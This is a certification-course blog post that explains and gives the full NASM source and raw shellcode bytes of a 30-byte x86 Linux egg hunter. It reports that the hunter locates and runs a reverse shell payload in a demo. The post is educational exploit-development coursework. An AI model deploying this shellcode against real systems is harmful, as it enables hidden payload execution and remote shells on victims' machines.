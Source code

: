 # 3. Egg Hunter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a demo of an egg hunter that will locate and execute a shellcode payload for Linux on the x86 architecture. The goal is to avoid null bytes while making the egg hunter as small as possible.

Additionally, it should be easy to change the payload used in the demo.

## Solution

The solution is based on the [egg hunter](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) written by Matt Miller. The egg hunter will search through the virtual address space looking for an "egg string" reapeated twice. It will then continue execution after this signature.

The egg string is defined at the top of the NASM source of the egg hunter:

```nasm
global _start

egg equ 0x4b434148  ; "HACK" in ASCII (little endian)
```

The egg hunter will align to a page boundary and use the [sigaction](https://man7.org/linux/man-pages/man2/sigaction.2.html) system call to check if the memory at that location is readable. This is possible because the system call will verify 16 bytes of memory at the location pointed to by the ECX register. If the memory is not readable, it will continue to the next memory page and repeat this process:

```nasm
section .text

_start:
    ; Align ECX to page boundary (page size = 4096). We don't care about the initial value of ECX (it'll wrap around).
    or cx, 0xfff
continue:
    inc ecx
    
    ; Call 'sigaction' to check read access of memory.
    ; int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact): syscall 0x43
    ;     sigaction(whatever, memory_address, whatever)
    push 0x43
    pop eax
    int 0x80
    
    ; Check if EFAULT (= 14 -> -14 = 0xf2) is returned. If that's the case, move on to the next page.
    cmp al, 0xf2
    je _start
```

The egg hunter will then do a string comparison of the current memory location and the repeated egg string. If there is a match, execution will continue after this signature where the payload should be placed:

```nasm
    ; Compare the current four bytes of memory to the egg. If it doesn't match, move on to the next address.
    mov eax, egg
    mov edi, ecx
    scasd
    jne continue
    
    ; Compare the next four bytes of memory to the egg. If it doesn't match, move on to the next address.
    scasd
    jne continue
    
    ; We found the egg! Jump to the payload following it.
    jmp edi
```

The complete source code can be found here: [egghunter.nasm](https://github.com/SpacePlant/slae32/blob/main/egghunter.nasm)

The demo written in C contains the TCP reverse shell shellcode from the [previous assignment](2) prepended with the repeated egg string as the payload. The egg hunter is executed and will locate and execute the payload. The source code of the demo can be found here: [egghunter_demo.c](https://github.com/SpacePlant/slae32/blob/main/egghunter_demo.c)

## Results

The assembled egg hunter is 30 bytes and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d egghunter | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x48\x41\x43\x4b\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
$ echo $shellcode | tr -cd 'x' | wc -c
30
```
The compiled egg hunter demo successfully locates and executes the TCP reverse shell payload:

![Egg hunter executed](images/egghunter.png)

![Reverse shell established](images/egghunter_2.png)
